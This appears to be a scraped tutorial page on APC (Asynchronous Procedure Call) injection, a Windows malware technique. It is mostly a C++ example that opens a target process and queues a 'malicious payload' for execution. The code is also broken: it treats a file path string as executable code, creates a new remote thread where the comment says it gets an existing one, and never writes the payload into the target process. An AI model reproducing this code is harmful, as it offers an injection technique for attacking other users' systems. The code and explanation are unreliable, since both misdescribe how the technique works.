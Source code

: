 # APC (Asynchronous Procedure Call) Injection

#### How it Works
APC injection involves queuing malicious code to be executed in the context of a target process when that process enters an alertable state. This method relies on using `QueueUserAPC` to inject the payload into an existing thread.

#### Basic Example of APC Injection
```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int InjectAPC(DWORD processId, const char* payload) {
    // Step 1: Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (!hProcess) {
        std::cerr << "Failed to open process." << std::endl;
        return -1;
    }

    // Step 2: Get a handle to the target thread
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)payload, NULL, 0, NULL);
    if (!hThread) {
        std::cerr << "Failed to create thread." << std::endl;
        CloseHandle(hProcess);
        return -1;
    }

    // Step 3: Queue an APC to the target thread
    if (QueueUserAPC((PAPCFUNC)payload, hThread, NULL) == 0) {
        std::cerr << "Failed to queue APC." << std::endl;
        CloseHandle(hThread);
        CloseHandle(hProcess);
        return -1;
    }

    std::cout << "APC injection successful!" << std::endl;

    // Cleanup
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}

int main() {
    DWORD processId = 1234;

  // Target process ID
    const char* payload = "C:\\path\\to\\malicious_payload.exe";  // Malicious payload

    InjectAPC(processId, payload);
    return 0;
}
```
